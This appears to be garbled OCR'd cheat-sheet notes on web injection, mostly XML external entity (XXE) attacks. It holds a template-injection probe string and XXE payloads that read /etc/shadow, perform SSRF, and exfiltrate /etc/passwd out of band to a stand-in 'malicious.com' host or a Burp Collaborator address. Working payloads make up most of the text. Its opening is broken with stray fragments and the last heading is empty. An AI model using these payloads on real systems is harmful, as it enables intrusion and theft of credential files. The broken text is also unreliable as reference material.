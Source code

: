 njection point 
تحاول تعمل error
’ “ aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

${{<%[%'"}}%\

to detect templet type

templet doc or sheetcheat (hack trickes)

# **XML external entity (XXE) injection**

https://github.com/payloadbox/xxe-injection-payload-list

## **Exploiting XXE using external entities to retrieve files**

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>

```

## **Exploiting XXE to perform SSRF attacks**

**<?xml version="1.0"?>**

**<!DOCTYPE foo [**

**<!ELEMENT foo (#ANY)>**

**<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>**

## **Blind XXE with out-of-band interaction**

**<!DOCTYPE root [**

**<!ENTITY xxe SYSTEM "http://malicious.com/?data=file:///etc/passwd">**

**]>**

**<root>&xxe;</root>**

`<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>`

`<productId>`

 `&xxe;` 

`</productId>`  

## **Blind XXE with out-of-band interaction via XML parameter entities**
